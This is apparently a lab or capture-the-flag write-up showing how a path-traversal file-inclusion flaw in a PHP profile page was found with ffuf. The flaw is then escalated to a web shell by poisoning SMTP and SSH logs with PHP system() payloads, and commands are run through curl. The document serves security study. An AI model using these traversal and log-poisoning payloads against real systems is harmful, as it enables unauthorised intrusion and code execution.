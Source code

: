 # LFI + path traversal

From inspection of the network requests, I found a request that loads the profile image using a query parameter to specify the path to the file:

```http
GET /profile.php?img=profile.png HTTP/1.1
Host: xxx.xxx.xxx.xxx:50000
User-Agent: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: connect.sid=xxxx
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

As found previously, the `profile.png` is present in the `/uploads` directory. Thus, it appears that the `img` query input will be used to search for a file in that directory.&#x20;

Possible path: `/var/www/html/uploads/profile.png`.

### Simple payloads

With knowledge of the current directory, I started off with simple payloads:

1. Path traversal
   * `../../../../etc/passwd`
   * `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`  (URL encoded)
   * `..//..//..//..//etc/passwd`
   * `%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2F%2E%2E%2F%2Fetc%2Fpasswd` (URL encoded)
2. Remote public resource
   * [https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf\_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcTAx6camOf_G96Zcs2Zj34Yjmy0ysPd-p0oJQ\&s)



### Brute force discovery

I performed a brute force attack using `ffuf`, with the [wordlist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/JHADDIX_LFI.txt):

* Cookie: `-H "Cookie: PHPSESSID=xxxx"`&#x20;
* Filter out empty responses: `--fs 0`

{% code overflow="wrap" %}
```sh
$ ffuf -w /<wordlist> -u http://<target>:50000/profile.php?img=FUZZ -H "Cookie: PHPSESSID=xxxx" --fs 0
```
{% endcode %}

The payload: `....//....//....//....//....//....//....//....//....//etc/passwd` was found to work:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

This provides us the following information:

1. Usernames:
   * `joshua`, `charles`
2. More importantly, the server is vulnerable to a Local File Inclusion (LFI) vulnerability!

### Exploring methods of exploitation

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

Following the guide in the link above, I explored a few methods to gain RCE on the system. From the previous enumeration steps, we have found multiple open ports/services, where some of them provides use a means to escalate the LFI to RCE.

#### Log poisoning

I tried accessing the following log files (appended to found payload above):

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
```

#### 1. SMTP (port 25)  \~ `/var/log/syslog`

From enumeration of the _**SMTP**_ commands, I found a few that will directly log user inputs into the log file:

```sh
1. RCPT TO:<input> # requires MAIL TO:<addr> before
2. VRFY <input>
```

With this in mind, we can exploit this to achieve RCE. Let's use the _**VRFY**_ command:

```sh
VRFY <?php system($_GET['cmd']); ?>
```

Now, reading the `/var/log/syslog` via the LFI vulnerability, we are able to view the output of our command that will be executed on the vulnerable machine. With that, we have a gained a web shell. The output can be viewed with the command:

{% code overflow="wrap" %}
```sh
$ curl 'http://xxx.xxx.xxx.xxx:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/syslog&cmd=<command>' -H "Cookie: PHPSESSID=xxxx" --silent | tail -n 20

```
{% endcode %}

The following command allows us to read the last 20 lines of the log file. Remember to replace `<command>` with the actual command, and set the **PHPSESSID**.

We can now replace the command to look around the directory and view the contents of the text file to retrieve our final flag!

#### 2. SSH (port 22) \~ `/var/log/auth.log`&#x20;

**Username**

I attempted to send a payload via the username field to SSH:

```sh
$ ssh '<?php system('id'); ?>'@<host>
```

However, the SSH client does not allow special characters in the username.

**Identification string**

I explored another method to poison the logs via the identification string:

```sh
$ nc <host> 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.11
<?php system($_GET['cmd']); ?> # click enter right after
```

This method works.

#### Interesting discovery

With the `img` payload value of `#` (`/profile.php?img=#`), we are presented with a status **400** response:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Even though this does not allow for any direct exploits, it tells us the hostname: `mail.filepath.lab.`
